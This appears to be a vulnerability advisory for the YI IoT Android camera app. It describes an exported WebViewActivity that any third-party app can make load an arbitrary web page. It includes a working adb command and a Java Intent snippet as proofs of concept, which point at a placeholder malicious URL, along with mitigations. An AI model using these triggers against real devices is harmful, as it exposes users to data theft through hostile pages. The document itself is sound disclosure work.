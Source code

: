

## Vulnerability Details

**Product:** YI IoT 'com.yunyi.smartcamera'  
**Version:** up to 4.1.8_20231117
**Vendor:** Kami Vision  
**Component Affected:** `com.ants360.yicamera.activity.WebViewActivity`  

The activity `com.ants360.yicamera.activity.WebViewActivity` is marked as exported and accepts an implicit Intent, making it accessible from any third-party application. This can be exploited to load a malicious web page in the WebView, potentially leading to RCE (Remote Code Execution) or unauthorized actions.

```markdown
### Proof of Concept 1 - ADB Invocation

```bash
adb shell am start -n com.yunyi.smartcamera/com.ants360.yicamera.activity.WebViewActivity -e path "https://www.example.com/maliciousContent"
```

### Proof of Concept 2 - Third-party Android Java Code

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.yunyi.smartcamera", "com.ants360.yicamera.activity.WebViewActivity"));
intent.putExtra("path", "https://www.example.com/maliciousContent");
startActivity(intent);
```

This Java code snippet demonstrates how a malicious application can invoke the `WebViewActivity` without any permissions, thereby leveraging the vulnerability.

### Impact

The vulnerability does not require any permissions and can be exploited by any third-party application installed on the same device. It could lead to unauthorized access, data theft, or manipulation of user information.

### Recommended Mitigations

1. Set `android:exported` to `false` for `WebViewActivity` if it is not meant to be accessed externally.
2. Restrict the activity to respond only to explicit Intents from trusted sources.
3. Sanitize and validate all Intent data before use within the app.
4. Implement WebView security best practices, including the disabling of JavaScript if it is not essential.

### Steps to Reproduce

1. Install the YI IoT app (version 4.1.7_20231026).
2. Execute the adb command or the Java code provided above.
3. Observe the WebView loading content from the arbitrary, potentially malicious source.
```
